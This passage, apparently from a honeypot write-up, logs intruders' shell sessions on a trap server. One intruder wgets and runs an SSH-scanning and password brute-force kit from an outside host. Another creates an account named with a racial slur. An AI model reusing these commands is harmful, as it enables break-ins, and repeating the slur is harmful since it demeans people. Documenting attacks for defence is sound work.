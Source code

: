     server:/dev/mc-root# ./go
    unable to open display ":0"

    server:/dev/mc-root# ls
    go         cyc.set    cyc.help   cyc.levels bash       udp.pl     stealth
    randfiles  cyc.acc    pico.tgz   pico       cyc.pid

    server:/dev/mc-root# cd

    server:~#

    server:~#

    server:~# wget pibo.com/.x/scan/wtf.tar
    --2011-02-09 00:35:09--  http://pibo.com/.x/scan/wtf.tar
    Connecting to pibo.com:80... connected.
    HTTP request sent, awaiting response... 200 OK
    Length: 1574103 (1M) [application/x-tar]
    Saving to: `wtf.tar

    100%[======================================>] 1,574,103    299K/s  eta 1s

    2011-02-09 00:35:13 (299 KB/s) - `wtf.tar' saved [1574103/1574103]

    server:~# tar xzvf wtf.tar
    wtf
    wtf/a
    wtf/a1
    wtf/auto
    wtf/common
    wtf/gen-pass.sh
    wtf/go.sh
    wtf/pass_file
    wtf/pscan2
    wtf/scam
    wtf/sh
    wtf/ss
    wtf/ssh-scan
    wtf/start
    wtf/vuln.txt

    server:~# cd wtf

    server:/root/wtf# chmod +x *

    server:/root/wtf# ./a 100
    error while loading shared libraries: libgnome.so.32: cannot open shared object file: No such file or directory

    server:/root/wtf#

## Seventh example

Not only is this intruder very offensive, he also quickly spotted the honeypot.

    server:~# adduser nigger
    Adding user `nigger' ...
    Adding new group `nigger' (1001) ...
    Adding new user `nigger' (1001) with group `nigger' ...
    Creating home directory `/home/nigger' ...
    Copying files from `/etc/skel' ...
    Password:
    Password again:
